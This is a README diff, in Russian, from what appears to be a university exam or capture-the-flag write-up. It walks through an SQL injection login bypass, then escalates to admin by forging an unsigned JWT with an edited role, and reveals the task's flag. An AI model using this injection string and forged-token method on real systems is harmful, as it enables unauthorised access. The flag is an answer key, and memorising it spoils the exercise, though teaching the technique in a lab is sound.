

Before and after one commit to ValeBlok/itmo_exam_cluster_technology, a Markdown page: README.md, the part around the change. GitHub-like rendering; pictures changed too: images/itmo_profile.png, images/itmo_profile_admin.png (added); blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -27,19 +27,32 @@ AND password = 'admin' OR '1'='1';
 В этом случае получается, что значение всегда истинно.
 
 Результат:
+
 ![скриншот](images/itmo_profile.png)
 
-Полученный ключ:
+Далее необходимо найти JWT:
 
-```json
-{
-  "iat": 1781964761,
-  "name": "ITMO Student",
-  "role": "user",
-  "sub": "1",
-  "username": "student"
-}
+Для этого нужно перейти в консоль разработчика (F12) -> Application -> Cookies. JWT:
+
+```base64
+eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxIiwidXNlcm5hbWUiOiJzdHVkZW50IiwibmFtZSI6IklUTU8gU3R1ZGVudCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzgxOTczNDA3fQ.
 ```
+
+Необходимо выполнить декодирование второй части payload в формате base64
+
+После декодирования: `{"sub":"1","username":"student","name":"ITMO Student","role":"user","iat":1781973407}`
+
+Она совпадает с тем, что указано выше. Далее меняем роль на `admin`, шифруем в base64 и добавляем первую часть. Вставляем в консоль.
+
+```base64
+eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxIiwidXNlcm5hbWUiOiJzdHVkZW50IiwibmFtZSI6IklUTU8gU3R1ZGVudCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc4MTk3MzQwN30=.
+```
+
+Результат:
+
+![скриншот](images/itmo_profile_admin.png)
+
+Полученный ключ `ITMO{sql_injection_to_unsigned_jwt_admin}`
 
 ## Облачные и кластерные технологии
 
````
